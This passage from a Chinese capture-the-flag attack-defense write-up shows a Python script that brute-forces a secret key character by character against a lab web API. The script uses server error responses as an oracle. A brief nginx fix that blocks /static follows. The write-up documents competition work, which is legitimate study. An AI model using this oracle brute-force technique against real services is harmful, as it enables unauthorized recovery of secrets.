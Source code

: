 得到长度为30。

#### 爆破key

使用相同的逻辑，依次爆破key的每一位，并且在后续添加全数字，如果该位key正确则会继续加密后一位的数字导致500，否则返回`{result: False}`。

```python
import requests
import string
import json
url = "http://172.16.9.15:6081/api/check/"
header = {
	'Accept': 'application/json, text/javascript, */*; q=0.01',
	'X-Requested-With': 'XMLHttpRequest',
	'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36',
	'Content-Type': 'application/json',
	'Origin': 'http://172.16.9.15:6081',
	'Referer': 'http://172.16.9.15:6081/login',
	'Accept-Encoding': 'gzip, deflate',
	'Accept-Language': 'zh-CN,zh;q=0.9'
}
data = {
	'key': []
}
for i in range(255):
	data['key'] = ['S', 'Q', 'D', '6', '8', 'u', 'i', 'y', 'o', '6', 'k', 'd', 'K', 'r', 'w', '9', 'm', 'd', '1', 'L', '3', 'n', 'J', '3', '1', 'E', 'x', '0', 'F']
    #这里我来不及调了，直接手动一个一个往里面放的
	j = len(data['key'])
	data['key'].append(chr(i))
	for i in range(30-j-1):
		data['key'].append(1)
	print(data['key'])
	resp = requests.post(url, headers = header, data = json.dumps(data))
	if resp.content[0] != 123:
		break
```

最终在该环节关闭的5分钟前解出了该题flag。~~我要是会web我会是这个鸟样子？~~

## 漏洞修复

这里修了上面发现的3个洞，但是应该修错了或是有剩下的洞没有发现，次数用完了也没有防御成功。仅提供修复思路作为参考。

### 漏洞点1

修改`nginx.conf`

```nginx
location /static {
	deny all ;
}
```
